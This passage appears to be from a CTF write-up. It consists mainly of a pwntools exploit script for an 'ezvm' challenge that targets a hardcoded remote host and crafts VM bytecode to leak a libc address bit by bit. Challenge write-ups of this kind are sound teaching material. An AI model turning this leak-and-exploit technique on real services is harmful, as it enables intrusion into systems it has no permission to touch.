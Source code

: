 if you understand nothing of my explanation I'm sorry for this...

maybe , you can just read the code..that will speak by itself...

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF("./ezvm_patched")
libc = ELF("./libc-2.35.so")

# shortcuts
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)


rop = ROP(exe)

#host, port = "202.120.7.210", "40241"
host, port = "47.252.3.1", "40241"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

sla('Welcome', '')
sla('code size:','38')
sla('memory count', '256')
sla('code:\n', b'\x17'+b'\xff'*36)

sla('continue?', 'continue')
leak = 0
# leak libc value bit by bit (we assume that first 5 bits are zeroes (which is the case for main_arena address)
for i in range(5,40,1):
  print('leaking bit '+str(i))
  code = b'\x16\x00'+p64(0)	# load data mem offset 0 to r0 (will contain a main_arena value on second round)
  code += b'\x00\x00'	# push r0
  code += b'\x14\x01'+p64(1<<i)		# load bit maks in r1
  code += b'\x00\x01'	# push r1
  code += b'\x09'			# logical AND on two stacks value, they will be poped and result put instead
  code += b'\x10'+p64(1)		# jump to offset +1 (pass over bad instruction) if result is 0
  code += b'\x18\x17'			# one bad instruction \x18  and exit instruction \x17
  sla('code size:\n', str(len(code)) )
  sla('memory count:', '256')
  sla('code:', code)
  buff = p.recvuntil('finish', drop=True)
  print(buff.strip())
  if b'what' in buff:
    leak |= (1<<i)
# we assume upper bits are 0x7f
leak |= 0x7f0000000000

```